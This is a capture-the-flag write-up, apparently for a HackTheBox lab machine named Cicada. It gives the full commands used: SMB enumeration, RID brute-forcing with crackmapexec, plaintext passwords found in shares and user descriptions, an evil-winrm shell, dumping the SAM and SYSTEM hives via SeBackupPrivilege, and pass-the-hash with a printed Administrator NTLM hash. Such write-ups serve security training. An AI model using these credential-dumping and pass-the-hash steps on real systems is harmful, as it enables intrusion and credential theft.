

# Cicada

### Reconnaissance

**port 53**


**port 445**

Found two shares, HR and DEV. Anonymous access is enabled but no directory listing is avalable for dev

HR shows a document for a new hire listing their password but no user account. It also mentions a `support` 
account, but it doesn't appear to be a valid username

Brute force user rids with `crackmapexec`

`crackmapexec smb 10.10.11.35 -d 10.10.11.35 -u 'guest' -p '' --rid-brute`



Users:

CICADA\john.smoulder -> pass not valid  
CICADA\sarah.dantelia -> pass not valid  
CICADA\michael.wrightson -> `Cicada$M6Corpb*@Lp#nZp!8` default pass works, rpcclient to enumerate other users  
CICADA\david.orelious -> `aRt$Lp#7t*VQ!3` in description using rpcclient with michael's creds  
CICADA\emily.oscars -> `Q!3@Lp#M6b*7t*Vt` in script on DEV share accessed using david's creds  

user:[Administrator] rid:[0x1f4]  
user:[Guest] rid:[0x1f5]  
user:[krbtgt] rid:[0x1f6]  
user:[john.smoulder] rid:[0x450]  
user:[sarah.dantelia] rid:[0x451]  
user:[michael.wrightson] rid:[0x452]  
user:[david.orelious] rid:[0x454]  
user:[emily.oscars] rid:[0x641]  

Get a reverse shell as emily.oscars with `evil-winrm`

Running `whoami /priv` shows we have SeBackupPrivilege which can be used to dump the sam and system hives

`reg save hklm\sam C:\Temp\sam`
`reg save hklm\system C:\Temp\system`

Download and dump hashes

`impacket-secretsdump -sam sam -system system LOCAL`

Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::

Get a reverse shell as Administrator using the NTLM hash and evil-winrm

### Lessons Learned

- Users with `SeBackupPrivilege` can dump the sam and system hives to dump hashes:
```
reg save hklm\sam sam
reg save hklm\system system

# Dump on attacker box
impacket-secretsdump -sam sam -system system LOCAL
```